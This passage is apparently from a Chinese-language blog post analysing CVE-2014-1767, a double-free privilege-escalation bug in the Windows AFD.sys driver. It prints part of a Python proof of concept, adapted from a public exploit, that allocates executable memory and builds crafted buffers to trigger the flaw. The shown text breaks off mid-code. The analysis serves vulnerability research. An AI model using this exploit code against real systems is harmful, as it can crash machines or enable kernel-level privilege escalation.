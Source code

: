 ```yaml
---
layout: post
title:  "Windows AFD.sys 提权漏洞分析"
date:   2016-05-27 08:45:00
categories: Exploit
---
```


## 0x0 序
本篇文章深入分析一个AFD.sys中的double free漏洞，编号CVE-2014-1767。AFD.sys负责处理winsock网络通信时与硬件的交互，Pwn2Own 2014上曾经利用这个内核漏洞进行提权绕过IE沙箱，非常具有研究价值，最近exploit-db又提交了该漏洞的[EXP](https://www.exploit-db.com/exploits/39446/)，我们就参考它进行分析。

## 0x1 漏洞原因
先精简下EXP，构造一个POC让操作系统触发Bugcheck：

```
from ctypes import *
import socket, time, os, struct, sys
from ctypes.wintypes import HANDLE, DWORD

ntdll         = windll.ntdll
MEMRES        = (0x1000 | 0x2000)
PAGEEXE       = 0x00000040
Zerobits      = c_int(0)
RegionSize    = c_int(0x1000)
written       = c_int(0)
IoStatusBlock = c_ulong()

def CreateBuffer1():
    inbuf1size = 0x30
    virtualAddress = 0x18888888
    length = 0x20000
    
    inbuf1  = "\x00" * 0x18 + struct.pack("L", virtualAddress)
    inbuf1 += struct.pack("L", length)            #0x20
    inbuf1 += "\x00" * 0x8 + "\x01"   				
    inbuf1 += "\x00" * (inbuf1size - len(inbuf1))
    
    baseadd    = c_int(0x1001)
    dwStatus = ntdll.NtAllocateVirtualMemory(-1,
                                        byref(baseadd),
                                        0x0,
                                        byref(RegionSize),
                                        MEMRES,
                                        PAGEEXE)
    kernel32.WriteProcessMemory(-1, 0x1000, inbuf1, inbuf1size, byref(written))
    
def CreateBuffer2():
    inbuf2size = 0x10
    addrforbuf2 = 0x0AAAAAAA
    
    inbuf2 = "\x01\x00\x00\x00"
    inbuf2 += struct.pack("L", addrforbuf2)
    inbuf2 += "\x00" * (inbuf2size -len(inbuf2))
       
    baseadd    = c_int(0x2001)
    dwStatus = ntdll.NtAllocateVirtualMemory(-1,
                                        byref(baseadd),
                                        0x0,
                                        byref(RegionSize),
                                        MEMRES,
```